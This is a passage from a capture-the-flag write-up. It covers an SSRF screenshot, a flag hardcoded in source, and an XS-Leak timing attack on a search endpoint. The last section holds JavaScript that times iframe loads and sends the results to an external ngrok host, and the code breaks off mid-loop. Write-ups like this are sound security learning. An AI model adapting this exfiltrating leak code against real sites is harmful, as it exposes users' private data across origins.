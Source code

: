 Screenshots of the attack and result:
![Redirect Setup](https://i.imgur.com/4NoUEki.png)
![Localhost SSRF](https://i.imgur.com/EY90Hng.png)

---

### oracle-srl
**Proof of flag**
`CTF{e663b007e3d1fd27f657e2756e3ba8724a37119d145063ce541595988b6cdc72}`

![Flag Screenshot](https://i.imgur.com/IP9NE9C.png)

**Summary of the vulnerabilities identified**
The flag was leaked in the source code of `/Oracle-SRL/client/client.go`.

**Proof of solving**
After inspecting the code repository, I found the flag hardcoded within the client file. A simple search through the source code revealed the flag.
![Source Code Flag Leak](https://i.imgur.com/IP9NE9C.png)

---

### reelfreaks
**Proof of flag**
`DCTF{l3ak_ev3ry_d4y_0f_ev3ry_w33k}`

![Flag Screenshot](https://i.imgur.com/UBao3Y2.png)

**Summary of the vulnerabilities identified**
XS-Leak through timing attacks on the search functionality, used to retrieve contents of the `/watchlist` endpoint indirectly via the bot's page visit.

**Proof of solving**
The bot visited any page on any website, but there was no direct XSS on the challenge site. By telling the bot to visit my crafted page, I measured the time it took to load different search queries from `/watchlist`. By optimizing the search function to avoid case sensitivity and using a reduced keyset, I efficiently filtered the correct flag characters. Here’s the attack code that conducted this XS-Leak:

```js
(async() => {
const keyset = "0123456789abcdefghijklmnopqrstuvwxyz_}";

for (let i = 0; i < keyset.length; i++) {
	const input = "ctf{l3ak_ev3ry_d4y_0f_ev3ry_w33k";
	let guess = keyset[i];

	const iframe = document.createElement("iframe");
	iframe.src = "https://127.0.0.1:5000/watchlist?q=" + input + guess;
	iframe.width = 1000;
	iframe.height = 1000;
	iframe.id = "easy";

	iframe.addEventListener("load", function() {
	  const end = Date.now();
	  console.log(`Execution time: ${end - start} ms`);
	  fetch(`https://1861-82-76-226-189.ngrok-free.app/?time=__${end - start}__&input=__${input + guess}__`)
	});

	const start = Date.now();
	document.body.appendChild(iframe);
	await new Promise(r => setTimeout(r, 500)); // sleep

```